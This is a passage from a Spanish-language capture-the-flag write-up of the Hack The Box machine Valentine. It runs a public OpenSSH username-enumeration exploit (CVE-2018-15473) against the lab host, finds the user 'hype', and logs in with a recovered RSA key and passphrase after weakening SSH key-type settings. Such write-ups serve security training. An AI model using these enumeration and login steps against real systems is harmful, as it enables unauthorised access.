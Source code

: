 ```bash
```

Copiemos el Exploit:
```bash
searchsploit -m linux/remote/45939.py
  Exploit: OpenSSH < 7.7 - User Enumeration (2)
      URL: https://www.exploit-db.com/exploits/45939
     Path: /usr/share/exploitdb/exploits/linux/remote/45939.py
    Codes: CVE-2018-15473
 Verified: False
File Type: Python script, ASCII text executable
```

Y ahora sí, probemos los usuarios que tenemos:
```bash
python2 SSH_Exploit.py 10.10.10.79 valentine 2>/dev/null                                                  
[-] valentine is an invalid username

python2 SSH_Exploit.py 10.10.10.79 heart 2>/dev/null
[-] heart is an invalid username

python2 SSH_Exploit.py 10.10.10.79 bleed 2>/dev/null
[-] bleed is an invalid username

python2 SSH_Exploit.py 10.10.10.79 heartbleed 2>/dev/null
[-] heartbleed is an invalid username

python2 SSH_Exploit.py 10.10.10.79 hype 2>/dev/null
[+] hype is a valid username
```
¡Encontramos uno! Vamos a probar si podemos entrar al servicio **SSH** con ese usuario, con la llave privada **id_rsa** y con la contraseña **heartbleedbelievethehype**.

-------
**IMPORTANTE**

No podía entrar al servicio **SSH** porque al parecer, necesitas hacer un archivo con unas líneas de código para que el **SSH** acepte llaves tipo **rsa**, aquí lo explican mejor que yo:
* https://stackoverflow.com/questions/73795935/sign-and-send-pubkey-no-mutual-signature-supported

Entonces crea el archivo **config** y añade las 2 líneas de código que mencionan:
```bash
nano ~/.ssh/config
Host *
    PubkeyAcceptedKeyTypes=+ssh-rsa
    HostKeyAlgorithms=+ssh-rsa
```
Guarda y cierra.

--------

Ahora trata de entrar:
```bash
ssh hype@10.10.10.79 -i id_rsa                                      
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
hype@Valentine:~$ cd Desktop/
```